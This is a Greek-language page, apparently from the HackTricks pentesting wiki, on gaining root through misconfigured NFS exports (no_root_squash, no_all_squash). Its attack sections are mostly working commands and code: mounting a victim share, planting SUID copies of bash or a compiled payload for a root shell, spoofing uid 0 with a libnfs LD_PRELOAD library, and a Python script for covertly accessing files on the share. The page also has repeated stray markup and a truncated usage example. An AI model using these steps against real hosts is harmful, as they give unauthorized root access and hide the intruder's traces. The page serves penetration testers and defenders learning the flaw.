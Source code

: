 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Διαβάστε το _ **/etc/exports** _ αρχείο, αν βρείτε κάποιον κατάλογο που είναι ρυθμισμένος ως **no\_root\_squash**, τότε μπορείτε να **έχετε πρόσβαση** σε αυτόν από **ως πελάτης** και να **γράφετε μέσα** σε αυτόν τον κατάλογο **σαν** να ήσασταν ο τοπικός **root** της μηχανής.

**no\_root\_squash**: Αυτή η επιλογή δίνει βασικά εξουσία στον χρήστη root στον πελάτη να έχει πρόσβαση σε αρχεία στον NFS server ως root. Και αυτό μπορεί να οδηγήσει σε σοβαρές επιπτώσεις ασφαλείας.

**no\_all\_squash:** Αυτή είναι παρόμοια με την επιλογή **no\_root\_squash** αλλά εφαρμόζεται σε **μη-root χρήστες**. Φανταστείτε, έχετε ένα shell ως χρήστης nobody; ελέγξατε το αρχείο /etc/exports; η επιλογή no\_all\_squash είναι παρούσα; ελέγξτε το αρχείο /etc/passwd; προσομοιώστε έναν μη-root χρήστη; δημιουργήστε ένα αρχείο suid ως αυτός ο χρήστης (με την τοποθέτηση χρησιμοποιώντας nfs). Εκτελέστε το suid ως χρήστης nobody και γίνετε διαφορετικός χρήστης.

# Privilege Escalation

## Remote Exploit

Αν έχετε βρει αυτή την ευπάθεια, μπορείτε να την εκμεταλλευτείτε:

* **Τοποθετώντας αυτόν τον κατάλογο** σε μια μηχανή πελάτη, και **ως root αντιγράφοντας** μέσα στον τοποθετημένο φάκελο το **/bin/bash** δυαδικό και δίνοντάς του **SUID** δικαιώματα, και **εκτελώντας από τη μηχανή του θύματος** αυτό το δυαδικό bash.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Τοποθετώντας αυτόν τον φάκελο** σε μια μηχανή-πελάτη, και **ως root αντιγράφοντας** μέσα στον τοποθετημένο φάκελο το προετοιμασμένο payload μας που θα εκμεταλλευτεί την άδεια SUID, δίνοντάς του **δικαιώματα SUID**, και **εκτελώντας από τη μηχανή του θύματος** αυτό το δυαδικό (μπορείτε να βρείτε εδώ μερικά [C SUID payloads](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Σημειώστε ότι αν μπορείτε να δημιουργήσετε ένα **τούνελ από τη μηχανή σας στη μηχανή του θύματος, μπορείτε ακόμα να χρησιμοποιήσετε την απομακρυσμένη έκδοση για να εκμεταλλευτείτε αυτή την κλιμάκωση προνομίων, τοποθετώντας τα απαιτούμενα ports**.\
Το παρακάτω κόλπο ισχύει στην περίπτωση που το αρχείο `/etc/exports` **υποδεικνύει μια IP**. Σε αυτή την περίπτωση **δεν θα μπορείτε να χρησιμοποιήσετε** σε καμία περίπτωση την **απομακρυσμένη εκμετάλλευση** και θα χρειαστεί να **καταχραστείτε αυτό το κόλπο**.\
Ένα άλλο απαιτούμενο προαπαιτούμενο για να λειτουργήσει η εκμετάλλευση είναι ότι **η εξαγωγή μέσα στο `/etc/export`** **πρέπει να χρησιμοποιεί την `insecure` σημαία**.\
\--_Δεν είμαι σίγουρος αν το `/etc/export` υποδεικνύει μια διεύθυνση IP, αν αυτό το κόλπο θα λειτουργήσει_--
{% endhint %}

## Basic Information

Το σενάριο περιλαμβάνει την εκμετάλλευση ενός προσαρτημένου NFS share σε μια τοπική μηχανή, εκμεταλλευόμενος ένα σφάλμα στην προδιαγραφή NFSv3 που επιτρέπει στον πελάτη να καθορίσει το uid/gid του, ενδεχομένως επιτρέποντας μη εξουσιοδοτημένη πρόσβαση. Η εκμετάλλευση περιλαμβάνει τη χρήση του [libnfs](https://github.com/sahlberg/libnfs), μιας βιβλιοθήκης που επιτρέπει την παραχάραξη των κλήσεων RPC NFS.

### Compiling the Library

Τα βήματα για τη συμπίεση της βιβλιοθήκης μπορεί να απαιτούν προσαρμογές με βάση την έκδοση του πυρήνα. Σε αυτή την συγκεκριμένη περίπτωση, οι syscalls fallocate είχαν σχολιαστεί. Η διαδικασία συμπίεσης περιλαμβάνει τις παρακάτω εντολές:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Διεξαγωγή της Εκμετάλλευσης

Η εκμετάλλευση περιλαμβάνει τη δημιουργία ενός απλού προγράμματος C (`pwn.c`) που ανυψώνει τα δικαιώματα σε root και στη συνέχεια εκτελεί ένα shell. Το πρόγραμμα μεταγλωττίζεται και το προκύπτον δυαδικό αρχείο (`a.out`) τοποθετείται στο κοινόχρηστο με suid root, χρησιμοποιώντας το `ld_nfs.so` για να προσποιηθεί το uid στις κλήσεις RPC:

1. **Μεταγλωττίστε τον κώδικα εκμετάλλευσης:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Τοποθετήστε την εκμετάλλευση στο κοινόχρηστο και τροποποιήστε τα δικαιώματά της προσποιούμενοι το uid:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Εκτελέστε την εκμετάλλευση για να αποκτήσετε δικαιώματα root:**
```bash
/mnt/share/a.out
#root
```

## Μπόνους: NFShell για Διακριτική Πρόσβαση σε Αρχεία
Μόλις αποκτηθεί η πρόσβαση root, για να αλληλεπιδράσετε με το NFS κοινόχρηστο χωρίς να αλλάξετε την ιδιοκτησία (για να αποφευχθεί η αφή ίχνους), χρησιμοποιείται ένα σενάριο Python (nfsh.py). Αυτό το σενάριο προσαρμόζει το uid ώστε να ταιριάζει με αυτό του αρχείου που προσπελάζεται, επιτρέποντας την αλληλεπίδραση με αρχεία στο κοινόχρηστο χωρίς προβλήματα δικαιωμάτων:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Τρέξτε όπως:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}

